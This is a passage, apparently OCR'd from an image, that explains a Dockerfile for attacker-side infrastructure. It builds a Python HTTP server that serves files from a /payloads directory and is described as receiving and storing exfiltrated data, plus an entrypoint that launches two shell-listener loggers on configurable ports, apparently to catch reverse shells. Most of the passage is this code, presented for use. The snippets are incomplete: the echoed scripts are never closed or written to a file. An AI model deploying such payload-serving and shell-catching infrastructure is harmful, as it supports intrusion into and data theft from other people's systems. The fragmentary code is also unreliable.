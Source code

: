 the HTTP server implementation is the mechanism for receiving and storing the exfiltrated data.

```Dockerfile
# Create HTTP server script
RUN echo '#!/usr/bin/env python3\n\
import http.server\n\
import socketserver\n\
import os\n\
import cgi\n\
import json\n\
import base64\n\
import sys\n\
from datetime import datetime\n\
\n\
# Get port from environment or use default\n\
PORT = int(os.environ.get("HTTP_PORT", 8080))\n\
UPLOAD_DIR = "/payloads/uploads"\n\
\n\
os.makedirs(UPLOAD_DIR, exist_ok=True)\n\
\n\
class CustomHTTPRequestHandler(http.server.BaseHTTPRequestHandler):\n\
    def _set_headers(self, status_code=200, content_type="text/html"):\n\
        self.send_response(status_code)\n\
        self.send_header("Content-type", content_type)\n\
        self.end_headers()\n\
    \n\
    def do_GET(self):\n\
        print(f"[{datetime.now()}] GET request received: {self.path}")\n\
        \n\
        if self.path == "/":\n\
            self.path = "/index.html"\n\
        \n\
        try:\n\
            file_path = f"/payloads{self.path}"\n\
            if os.path.exists(file_path) and os.path.isfile(file_path):\n\
                with open(file_path, "rb") as file:\n\
                    self._set_headers(200)\n\
                    self.wfile.write(file.read())\n\
                print(f"[{datetime.now()}] Served file: {file_path}")\n\
            else:\n\
                self._set_headers(404)\n\
                self.wfile.write(b"File not found")\n\
                print(f"[{datetime.now()}] File not found: {file_path}")\n\
        except Exception as e:\n\
            self._set_headers(500)\n\
            self.wfile.write(str(e).encode())\n\
            print(f"[{datetime.now()}] Error: {e}")\n\
```

the Dockerfile also configures an entrypoint script that launches all the server components.

```Dockerfile
# Create entrypoint script
RUN echo '#!/bin/bash\n\
echo "Starting payload server..."\n\
echo "HTTP_PORT: $HTTP_PORT"\n\
echo "SHELL_PORT_1: $SHELL_PORT_1"\n\
echo "SHELL_PORT_2: $SHELL_PORT_2"\n\
\n\
# Start HTTP server\n\
cd /payloads && python3 server.py &\n\
\n\
# Start shell listeners with logging\n\
/payloads/shell_logger.sh $SHELL_PORT_1 &\n\
/payloads/shell_logger.sh $SHELL_PORT_2 &\n\
```